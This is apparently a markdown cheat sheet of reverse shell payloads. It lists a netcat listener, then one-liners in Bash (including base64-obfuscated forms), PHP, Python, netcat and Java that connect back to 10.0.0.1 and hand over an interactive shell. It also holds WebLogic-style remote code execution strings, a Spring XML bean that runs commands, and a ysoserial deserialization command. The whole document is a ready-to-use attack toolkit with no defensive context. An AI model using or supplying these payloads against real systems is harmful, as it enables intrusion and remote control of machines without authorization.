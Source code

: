 # Various Reverse Shells
# Shell Listener
```
nc -lvp 9999
```
###
or
###
```
nc -A -l 9999
```
###

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###
###
```
echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash
```
###
#### Base64 Encoded
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
###
###
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","bash -i >& /dev/tcp/10.0.0.1/9999 0>&1"] as String[])
p.waitFor()
```
###
###
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###
###
```
com.tangosol.coherence.mvel2.sh.ShellSession('java.lang.Runtime.getRuntime().exec(new%20String%20[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"});')
```
###
rce.xml
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
###
```
com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://10.0.0.1/rce.xml")
```
###
#### Base64 Encoded Payload for Deserialization
```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'
```
###
